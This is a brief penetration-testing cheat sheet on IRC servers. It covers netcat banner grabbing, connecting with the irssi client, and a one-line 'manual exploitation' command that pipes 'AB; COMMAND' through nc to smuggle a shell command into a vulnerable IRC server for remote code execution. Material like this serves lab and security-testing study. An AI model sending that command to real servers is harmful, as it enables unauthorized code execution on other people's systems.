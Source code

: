 # Internet Relay Chat (IRC) Penetration Testing

## Enumeration:

### 1) Netcat banner grabbing

    nc -vn TARGET_IP PORT

### 2) IRC Client (irssi)

    irssi -c TARGET_IP --port PORT

## TIP: Depending on the IRC server version used, we may find exploits for RCE

### 1) Manual Exploitation

    echo 'AB; COMMAND' | nc TARGET_IP IRC_PORT (Example)

